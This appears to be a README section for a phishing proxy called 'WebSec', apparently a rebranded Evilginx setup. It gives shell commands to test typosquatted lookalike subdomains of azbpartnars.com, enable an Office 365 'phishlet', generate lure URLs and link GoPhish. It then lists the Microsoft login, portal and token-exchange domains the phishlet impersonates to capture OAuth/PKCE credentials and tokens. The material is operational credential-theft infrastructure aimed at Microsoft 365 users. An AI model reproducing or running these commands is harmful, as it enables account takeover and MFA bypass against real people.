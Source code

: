 ## 🧪 Testing Your Deployment

### 1. Basic Connectivity Test

```bash
# Test if WebSec is running on O365-1 phishlet subdomains
curl -k https://login.azbpartnars.com
curl -k https://portal.azbpartnars.com
curl -k https://sso.azbpartnars.com
curl -k https://auth.azbpartnars.com

# Check service status
sudo systemctl status websec

# View logs
sudo journalctl -u websec -f
```

### 2. Configure O365-1 Phishlet

```bash
# Connect to WebSec
cd /opt/websec
./websec -p ~/.websec/phishlets -t ~/.websec/redirectors

# In WebSec terminal:
# Configure O365-1 phishlet (advanced O365 phishlet with PKCE support)
phishlets hostname o365-1 login.azbpartnars.com
phishlets enable o365-1

# Verify phishlet configuration
phishlets o365-1

# Create lures for testing
lures create o365-1
lures get-url 0

# Test GoPhish integration
config gophish test
```

### 3. O365-1 Phishlet Features

The `o365-1.yaml` phishlet includes:

**Advanced OAuth2/PKCE Support:**
- Handles modern Microsoft authentication flows
- Captures PKCE code challenges and verifiers
- Supports token exchange endpoints

**Comprehensive Coverage:**
- `login.microsoftonline.com` - Primary O365 login
- `portal.office.com` - Office portal redirects
- `live.com` - Live account SSO
- `microsoftonline.com/common` - Token exchange
- `msftauth.net` & `msauth.net` - Asset CDNs
